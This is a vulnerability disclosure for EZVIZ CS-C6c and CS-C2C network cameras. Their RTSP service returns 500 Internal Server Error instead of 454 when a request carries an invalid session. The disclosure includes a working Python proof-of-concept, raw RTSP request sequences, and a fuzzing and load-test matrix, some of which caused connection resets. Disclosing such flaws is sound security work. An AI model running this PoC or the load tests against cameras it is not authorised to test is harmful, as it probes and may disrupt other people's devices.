





# EZVIZ CS-C6c/CS-C2C - Unexpected Internal Error on Invalid RTSP Session

### Information

Vendor: Hangzhou Ezviz Network Co., Ltd. (EZVIZ / 杭州萤石网络股份有限公司)

Affected Product: EZVIZ CS-C6c (CS-C6c-V101-1J4WF) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B) network cameras

Affected Firmware Version: CS-C6c: V5.3.8 build 231128; CS-C2C: V5.3.4 build 230420

Vendor Homepage: [https://www.ezviz.com/](https://www.ezviz.com/)

Vendor Contact Information: [security@ezviz.com](mailto:security@ezviz.com) (EZVIZ Security Response Center: https://www.ezviz.com/us/trust-center/security/response-center)



Affected Component: RTSP service (TCP/554)


### Description

An improper error-handling vulnerability exists in the RTSP service of EZVIZ CS-C6c (CS-C6c-V101-1J4WF, firmware V5.3.8 build 231128) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B, firmware V5.3.4 build 230420). A TEARDOWN request carrying an invalid or missing Session, or a PLAY request carrying an invalid Session after authentication, returns 500 Internal Server Error instead of the 454 Session Not Found status defined by RTSP. The server therefore enters an unexpected internal error path during session lookup. Software that relies on the documented RTSP error semantics, or that trusts the device firmware to return a protocol-defined status, may enter an unexpected state and mishandle the session or validation flow, potentially affecting the reliability or validation logic of the client or management software.

### Exploit Demo

The PoC first performs a normal `OPTIONS` (`200 OK`) and an unauthenticated `DESCRIBE` (`401` with a Digest challenge), then sends a `TEARDOWN` with `Session: 0` and a valid Digest response. The server returns `500 Internal Server Error` instead of `454 Session Not Found`:



Wireshark shows the `401` challenge and the `TEARDOWN` request followed by the `500` response:



The TCP stream shows the complete request and the `500` response with `Session: 0`:



The control path establishes a valid Session with `SETUP` and sends `TEARDOWN` with that Session; the server returns `200 OK`:



The confirmed trigger surface is broader than `TEARDOWN`:

| Test | Response |
|---|---|
| `TEARDOWN` + `Session: 0` (valid Digest) | `500`, `Session: 0` |
| `TEARDOWN` + no `Session` header (valid Digest) | `500` |
| `TEARDOWN` + bogus or stale `Session` | `500` |
| `TEARDOWN` + `Session: 0`, no `Authorization` | `500` |
| `PLAY` + invalid or missing `Session` after authenticated `DESCRIBE` | `500` |
| Valid `SETUP`-issued `Session` | `200 OK` |
| CSeq `8`, `2^31-1`, `2^31`, `2^32-1`, `2^63-1`, 19/40-digit, `-1`, `abc`, empty | `500` |
| 26 `Session` variants (0, missing, empty, -1, integer boundaries, hex, spaces, CRLF, NUL, 16 B-64 KiB `A`, binary, duplicate header) | `500`; no body or leak; `Session` >= 1024 B caused RST |
| Sequential 100/500/1000 `TEARDOWN` 500s | 100/100, 500/500, 1000/1000; health `200` |
| Concurrent 50/100/200 | 50/50; at 100/200 some timeouts/RST; health `200` |

The `500` response contains only `CSeq`, `Session: 0`, and `Date`; there is no body, stack trace, path, or input reflection. `SETUP`, `GET_PARAMETER`, and `SET_PARAMETER` did not show the `500` in these tests; `PAUSE` returned `551`. The issue is a generic unexpected internal error path for session-required methods, not a `TEARDOWN`-only handler.

The server therefore enters an unexpected internal error condition during session lookup. Software that relies on the documented RTSP error semantics, or that trusts the device firmware to return a protocol-defined status, may enter an unexpected state and mishandle the session or validation flow, potentially affecting the reliability or validation logic of the client or management software.

The same method matrix produced the same pattern on the CS-C2C test unit. The screenshots and video were captured on the CS-C6c unit.

A 61-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the `401` challenge, the `TEARDOWN` with `Session: 0` returning `500`, and the valid-Session control returning `200`.


### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request is defined explicitly in the code.

```python
#!/usr/bin/env python3
"""EZVIZ CS-C6c TEARDOWN invalid-Session 500 PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
A TEARDOWN request carrying Session: 0 receives 500 Internal Server Error
instead of 454 Session Not Found. A valid SETUP-issued Session returns 200.
Run this file directly from VS Code.
"""

import hashlib
import re
import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 8.0
USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"

BASE = "rtsp://%s:%d" % (TARGET_IP, TARGET_PORT)

BASELINE_OPTIONS = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

UNAUTH_DESCRIBE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

# Request 3: the trigger. Session: 0 is not a valid session.
TRIGGER_TEARDOWN_TEMPLATE = (
    "TEARDOWN " + BASE + "/ RTSP/1.0\r\n"
    "CSeq: 4\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "/\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Session: 0\r\n\r\n"
)

AUTH_DESCRIBE_TEMPLATE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 5\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

SETUP_TEMPLATE = (
    "SETUP " + BASE + "/trackID=1 RTSP/1.0\r\n"
    "CSeq: 6\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "/trackID=1\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)

CONTROL_TEARDOWN_TEMPLATE = (
    "TEARDOWN " + BASE + "/ RTSP/1.0\r\n"
    "CSeq: 7\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "/\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Session: __SESSION__\r\n\r\n"
)


def md5_hex(text):
    return hashlib.md5(text.encode("latin-1")).hexdigest()


def digest_response(method, uri, realm, nonce):
    ha1 = md5_hex("%s:%s:%s" % (USERNAME, realm, PASSWORD))
    ha2 = md5_hex("%s:%s" % (method, uri))
    return md5_hex("%s:%s:%s" % (ha1, nonce, ha2))


def render(template, realm, nonce, response):
    return (template.replace("__REALM__", realm)
                    .replace("__NONCE__", nonce)
                    .replace("__RESPONSE__", response))


def show_payload(payload):
    text = payload if isinstance(payload, str) else payload.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        marker = "   <-- invalid Session" if "Session: 0" in line else ""
        if len(line) > 140:
            line = line[:110] + "... [%d bytes total]" % len(line)
        print("    | " + line + marker)


class Connection:
    def __init__(self, timeout):
        self.sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=timeout)
        self.sock.settimeout(timeout)
        self.buffer = b""

    def close(self):
        try:
            self.sock.close()
        except OSError:
            pass

    def _fill(self):
        chunk = self.sock.recv(65536)
        if not chunk:
            raise ConnectionError("RTSP connection closed")
        self.buffer += chunk

    def _read_until(self, marker):
        while marker not in self.buffer:
            self._fill()
        index = self.buffer.index(marker) + len(marker)
        data, self.buffer = self.buffer[:index], self.buffer[index:]
        return data

    def _read_exact(self, size):
        while len(self.buffer) < size:
            self._fill()
        data, self.buffer = self.buffer[:size], self.buffer[size:]
        return data

    def read_response(self):
        head = self._read_until(b"\r\n\r\n")
        lines = head.decode("latin-1").split("\r\n")
        status = lines[0]
        headers = {}
        for line in lines[1:]:
            if not line:
                continue
            name, _, value = line.partition(":")
            key = name.strip().lower()
            value = value.strip()
            if key == "www-authenticate":
                if "digest" in value.lower():
                    headers[key] = value
                elif key not in headers:
                    headers[key] = value
            else:
                headers[key] = value
        length = int(headers.get("content-length", "0"))
        body = self._read_exact(length) if length else b""
        return status, headers, body

    def send(self, label, payload):
        print("\n" + label)
        show_payload(payload)
        time.sleep(REQUEST_INTERVAL)
        raw = payload.encode("latin-1") if isinstance(payload, str) else payload
        self.sock.sendall(raw)
        try:
            status, headers, body = self.read_response()
        except socket.timeout:
            print("  -> TIMEOUT: no RTSP response within %.1fs" % RESPONSE_WAIT)
            return None, {}, b""
        except (OSError, ValueError) as exc:
            print("  -> %s: %s" % (type(exc).__name__, exc))
            return None, {}, b""
        print("  <- " + status)
        return status, headers, body


def parse_challenge(conn, label):
    status, headers, _ = conn.send(label, UNAUTH_DESCRIBE)
    if not status or not status.startswith("RTSP/1.0 401"):
        raise RuntimeError("expected a 401 Digest challenge")
    challenge = headers.get("www-authenticate", "")
    realm = re.search(r'realm="([^"]+)"', challenge)
    nonce = re.search(r'nonce="([^"]+)"', challenge)
    if not realm or not nonce:
        raise RuntimeError("Digest challenge is missing realm or nonce")
    return realm.group(1), nonce.group(1)


def main():
    print("=" * 72)
    print("EZVIZ CS-C6c TEARDOWN invalid-Session 500 PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: TEARDOWN with Session: 0")
    print("=" * 72)

    # --- vulnerable path: invalid Session returns 500 ---
    conn = Connection(RESPONSE_WAIT)
    try:
        conn.send("[1/8] Baseline OPTIONS", BASELINE_OPTIONS)
        realm, nonce = parse_challenge(conn, "[2/8] Unauthenticated DESCRIBE")

        valid = digest_response("TEARDOWN", BASE + "/", realm, nonce)
        trigger = render(TRIGGER_TEARDOWN_TEMPLATE, realm, nonce, valid)
        print("\n" + "=" * 72)
        print(">>> TRIGGER: [3/8] TEARDOWN with Session: 0 <<<")
        print(">>> The server should return 454, but returns 500. <<<")
        print("=" * 72)
        status, headers, _ = conn.send("[3/8] TRIGGER TEARDOWN", trigger)
        if not status or not status.startswith("RTSP/1.0 500"):
            print("Trigger did not return 500; aborting.")
            return
        print("  unexpected internal error: 500 Internal Server Error")
    finally:
        conn.close()

    # --- control path: a valid SETUP-issued Session returns 200 ---
    conn = Connection(RESPONSE_WAIT)
    try:
        conn.send("[4/8] Control: Baseline OPTIONS", BASELINE_OPTIONS)
        realm, nonce = parse_challenge(conn, "[5/8] Control: Unauthenticated DESCRIBE")

        valid = digest_response("DESCRIBE", BASE, realm, nonce)
        request = render(AUTH_DESCRIBE_TEMPLATE, realm, nonce, valid)
        status, _, _ = conn.send("[6/8] Control: Authenticated DESCRIBE", request)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Control DESCRIBE did not return 200; aborting.")
            return

        valid = digest_response("SETUP", BASE + "/trackID=1", realm, nonce)
        request = render(SETUP_TEMPLATE, realm, nonce, valid)
        status, headers, _ = conn.send("[7/8] Control: SETUP trackID=1", request)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Control SETUP did not return 200; aborting.")
            return
        session = headers.get("session", "").split(";")[0].strip()
        print("  Session: " + session)

        valid = digest_response("TEARDOWN", BASE + "/", realm, nonce)
        request = (render(CONTROL_TEARDOWN_TEMPLATE, realm, nonce, valid)
                   .replace("__SESSION__", session))
        status, _, _ = conn.send("[8/8] Control: TEARDOWN with valid Session", request)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Control TEARDOWN did not return 200; aborting.")
            return
        print("\nThe invalid Session reached an unexpected internal error path;")
        print("the same request with a valid Session returned 200 OK.")
    finally:
        conn.close()


if __name__ == "__main__":
    main()

```

### MSG

The complete representative request sequence follows. `192.168.1.100` is a placeholder for the target address; `<realm>`, `<nonce>`, `<valid response>` and `<session>` are dynamic values. The TEARDOWN request carrying `Session: 0` is the trigger.

```text
OPTIONS rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

DESCRIBE rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

TEARDOWN rtsp://192.168.1.100:554/ RTSP/1.0
CSeq: 4
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/", response="<valid response>"
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Session: 0
```

### Credit

CRfuzzer
